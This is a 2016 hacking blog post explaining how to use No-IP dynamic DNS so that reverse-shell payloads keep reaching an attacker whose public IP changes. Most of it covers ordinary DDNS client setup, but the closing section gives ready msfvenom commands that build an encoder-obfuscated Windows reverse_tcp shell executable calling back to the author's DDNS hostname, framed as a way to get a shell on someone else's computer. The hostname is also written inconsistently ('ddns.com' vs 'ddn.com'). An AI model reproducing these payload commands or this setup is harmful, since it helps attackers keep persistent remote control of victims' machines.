 ```yaml
---
author: SkullTech
comments: true
date: 2016-03-06 08:28:02+00:00
layout: post
link: https://techkernel.org/2016/03/06/use-ddns-to-deal-with-your-dynamic-public-ip/
slug: use-ddns-to-deal-with-your-dynamic-public-ip
title: Use DDNS to Deal with Your Dynamic Public IP
wordpress_id: 256
categories:
- Hacking
- Networking
tags:
- DDNS
- DNS
- Dynamic IP
- Metasploit
- MSFVenom
- No-IP
---
```


Many of us have an internet connection with dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I'm going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I'm getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that's visible to machines outside your local network. For example if two or more machines are connected through a router (maybe through WiFi) to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router's public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what's your public IP by googling 'What is my IP', Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as **android/meterpreter/reverse_tcp**, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won't be able to use a payload for a long time because  after some time the IP stored inside it won't point to your machine anymore. That's a problem. A major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to the Rescue


We all know what DNS or Domain Naming System is, it's the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a  browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP


There are many DDNS providers, I'm going to use No-IP which is one of them.


### Step 1: Creating a No-IP account


Head to https://www.noip.com and create a free account there.


### Step 2: Adding a Hostname in No-IP


When you get to the dashboard, go to Dynamic DNS -> Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is hostname.domainname. Such as I chose the default domain name ddns.com and the hostname I entered is skulltech. So the address I got is 'skulltech.ddns.com'. Refer to the screenshots below for reference.

![step-1](https://techkernel.org/wp-content/uploads/2016/12/step-11.png)![step-2](https://techkernel.org/wp-content/uploads/2016/12/step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you'll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It's a tar.gz archive, extract it using the following command

    
    tar -xzvf noip-duc-linux.tar.gz


![screenshot-from-2016-12-18-14-24-36](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-24-36.png)After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

    
    make install


![screenshot-from-2016-12-18-14-38-06](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-38-06.png)
After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname (or hostnames) that you want to associate with this computer in that step.

    
    noip2 -C


When you are done with the configuration, just run **noip2** in the terminal to start the client, it will run in the background and keep updating your DNS record.

    
    noip2


![screenshot-from-2016-12-18-14-49-56](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won't be going into details how to do that. Assuming that you already know how to create these payloads using **msfvenom** (if you don't check out this tutorial), I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it's **192.168.1.101. **

    
    msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe


Now that we have a DDNS hostname, pass that as LHOST to msfvenom instead of your IP. So now the command will be

    
    msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe


Feel free to leave a comment if you face any problem. Happy Hacking! :)
